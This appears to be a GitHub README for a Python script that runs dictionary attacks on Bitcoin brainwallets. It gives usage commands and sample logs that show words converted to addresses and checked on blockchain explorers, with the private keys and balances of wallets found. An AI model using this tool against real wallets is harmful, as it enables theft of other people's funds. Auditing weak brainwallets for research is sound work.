 bruteforce-bitcoin-brainwallet
==============================

A python script that performs a bruteforce dictionary attack on brainwallets. It takes a dictionary input file and converts each line into a bitcoin address. A lookup of this address is done either using a local [Abe](https://github.com/jtobey/bitcoin-abe)
 instance, blockchain.info, or insight.bitpay.com to see if any bitcoins have ever been received by this address. If so, it will do one more check
 to see the current balance for the bitcoin address.

#Requirements
* Dictionary file in UTF-8 format (***other formats NOT SUPPORTED***)
* Python 2.7 (***3.x NOT SUPPORTED***), requests, coinkit
<pre>
pip install -r requirements.txt
</pre>

#Usage
```
usage: bbb.py [-h] -t TYPE -d DICT_FILE -o OUTPUT_FILE [-s SERVER] [-p PORT]
              [-c CHAIN] [-k] [--version]

A script to perform bruteforce dictionary attacks on brainwallets.

optional arguments:
  -h, --help      show this help message and exit
  -t TYPE         Blockchain lookup type (abe|blockchaininfo|insight|blockexplorer)
  -d DICT_FILE    Dictionary file (e.g. dictionary.txt)
  -o OUTPUT_FILE  Output file (e.g. output.txt)
  -s SERVER       Abe server address (e.g. localhost)
  -p PORT         Abe port (e.g. 2751)
  -c CHAIN        Abe chain string (e.g. Bitcoin)
  -k              treat each word as a hex or wif encoded private key, not as
                  brain wallet
  --version       show program's version number and exit
```

#Abe example
```
python bbb.py -t abe -d dictionary.txt -o found.txt -s 127.0.0.1 -p 2751 -c Bitcoin
2014-04-03 21:24:37,552 INFO   line 59   Opening session for abe
2014-04-03 21:24:37,552 INFO   line 17   Opening new session to http://127.0.0.1:2751
2014-04-03 21:24:37,563 INFO   line 171  Starting new HTTP connection (1): 127.0.0.1
2014-04-03 21:24:37,749 INFO   line 63   Opening dictionary file dictionary.txt for reading
2014-04-03 21:24:37,749 INFO   line 72   Opening output file found.txt for writing
2014-04-03 21:24:37,750 INFO   line 75   dictionary word, received bitcoins, wallet address, private address, current balance
2014-04-03 21:24:38,490 INFO   line 101  a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000
```

#Insight example
```
python bbb.py -t insight -d dictionary.txt -o found.txt
2014-09-11 20:34:17,863 INFO   line 62   Opening session for insight
2014-09-11 20:34:17,863 INFO   line 20   Opening new session to https://insight.bitpay.com
2014-09-11 20:34:17,876 INFO   line 696  Starting new HTTPS connection (1): insight.bitpay.com
2014-09-11 20:34:18,419 INFO   line 67   Opening dictionary file dictionary.txt and validating encoding is utf-8
2014-09-11 20:34:18,419 INFO   line 78   Opening dictionary file dictionary.txt for reading
2014-09-11 20:34:18,419 INFO   line 81   Opening file with encoding utf-8
2014-09-11 20:34:18,419 INFO   line 90   Opening output file found4.txt for writing
2014-09-11 20:34:18,419 INFO   line 93   dictionary word, received bitcoins, wallet address, private address, current balance
2014-09-11 20:34:22,654 INFO   line 153  Found used brainwallet: a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000

```

#Private key dictionary example
    This is also known as secret exponent, mixed hex and wif format.
```
python bbb.py -d keys.txt -t insight -o found.txt -k
2014-09-16 12:13:55,301 INFO   line 64   Opening session for insight
2014-09-16 12:13:55,301 INFO   line 20   Opening new session to https://insight.bitpay.com
2014-09-16 12:13:55,338 INFO   line 696  Starting new HTTPS connection (1): insight.bitpay.com
2014-09-16 12:14:09,152 INFO   line 69   Opening dictionary file keys.txt and validating encoding is utf-8
2014-09-16 12:14:09,153 INFO   line 80   Opening dictionary file keys.txt for reading
2014-09-16 12:14:09,154 INFO   line 83   Opening file with encoding utf-8
2014-09-16 12:14:09,155 INFO   line 92   Opening output file found.txt for writing
2014-09-16 12:14:09,155 INFO   line 95   dictionary word, received bitcoins, wallet address, private address, current balance
2014-09-16 12:14:23,951 INFO   line 155  Found used wallet: 6d88fd5f906a89858aca2a963d82d6e36cdf409871a88f6e79749ba21f021421,0.00005460,18XHQxYKXeXdiJzi5Z5XTojzeY3xHAoLCA,6d88fd5f906a89858aca2a963d82d6e36cdf409871a88f6e79749ba21f021421,0.00000000
```

#Blockchain.info example
    Note: there is a 10 second wait between API calls to respect blockchain.info limits.
```
python bbb.py -t blockchaininfo -d dictionary.txt -o found.txt
2014-04-03 21:38:48,893 INFO   line 100  Note there is a 10 second wait between each API call to respect posted limits
2014-04-03 21:38:48,893 INFO   line 59   Opening session for blockchaininfo
2014-04-03 21:38:48,893 INFO   line 18   Opening new session to http://blockchain.info
2014-04-03 21:38:48,903 INFO   line 171  Starting new HTTP connection (1): blockchain.info
2014-04-03 21:38:49,672 INFO   line 63   Opening dictionary file dictionary.txt for reading
2014-04-03 21:38:49,673 INFO   line 72   Opening output file found.txt for writing
2014-04-03 21:38:49,673 INFO   line 75   dictionary word, received bitcoins, wallet address, private address, current balance
2014-04-03 21:40:02,313 INFO   line 101  a,0.01000000,1HUBHMij46Hae75JPdWjeZ5Q7KaL7EFRSD,ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb,0.00000000
```

```
